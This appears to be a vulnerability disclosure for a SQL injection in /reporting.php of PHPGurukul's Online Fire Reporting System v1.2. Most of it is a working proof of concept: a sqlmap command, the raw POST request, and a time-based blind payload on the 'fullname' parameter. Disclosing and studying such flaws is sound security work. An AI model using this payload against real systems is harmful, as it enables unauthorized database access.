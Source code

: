 # SQLi vulnerability in Online Fire Reporting System v1.2 of file /reporting.php

**vender**:

- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /reporting.php

**Version**

- V1.2

### POC

```bash
sqlmap -r request.txt --level 5 --random-agent
```



```http
POST /reporting.php HTTP/1.1
Host: www.firereport.top
Content-Type: application/x-www-form-urlencoded
Referer: http://www.firereport.top/reporting.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
Origin: http://www.firereport.top
Content-Length: 90

fullname=1&mobilenumber=1&location=1&message=1&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```





```
sqlmap identified the following injection point(s) with a total of 6358 HTTP(s) requests:
---
Parameter: fullname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: fullname=1' AND (SELECT 4364 FROM (SELECT(SLEEP(5)))JHEp) AND 'uDFv'='uDFv&mobilenumber=1&location=1&message=1&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
---
```

![image-20250531183640108](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505311836268.png)